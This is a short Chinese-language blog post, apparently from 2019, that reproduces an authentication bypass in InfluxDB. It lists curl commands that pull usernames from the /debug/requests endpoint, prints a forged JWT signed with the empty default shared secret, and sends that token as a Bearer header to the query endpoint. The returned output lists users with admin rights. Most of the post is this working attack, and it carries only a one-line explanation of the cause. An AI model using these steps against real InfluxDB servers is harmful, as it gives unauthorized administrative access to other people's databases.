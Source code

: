 ```yaml
---
layout:     post
title:      "influxdb认证绕过0day"
subtitle:   " 通过jwt token绕过认证"
date:       2019-05-31 15:00:00
author:     "tanjiti"
header-img: "img/post-bg-2015.jpg"
catalog: true
tags:
    - influxdb
    - 0 day
    - 认证绕过
---
```


# 0day复现步骤:

## 1. 查找user name
`curl -G "http://xxx:8086/debug/requests"`

## 2. 构造jwt token

[在线构造地址](https://jwt.io/)

![jwt_token](/img/influxdb0day.png)


## 3. 构造认证头

`curl -G 'http://xxx:8086/query' --data-urlencode 'q=show users' -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNTU5Mjg0OTM1fQ.tUClNot9LgStSw57n26DSn-3NPkBiHizk-XOHMfJJJw'`

返回

`{"results":[{"statement_id":0,"series":[{"columns":["user","admin"],"values":[["admin",true],["read",false],["write",false],["telegraf",true]]}]}]}`

成功

# 漏洞原理
JWT token shared-secret 默认为空

>[JWT说明](http://www.ruanyifeng.com/blog/2018/07/json_web_token-tutorial.html)

>[0day原文](https://www.komodosec.com/post/when-all-else-fails-find-a-0-day)
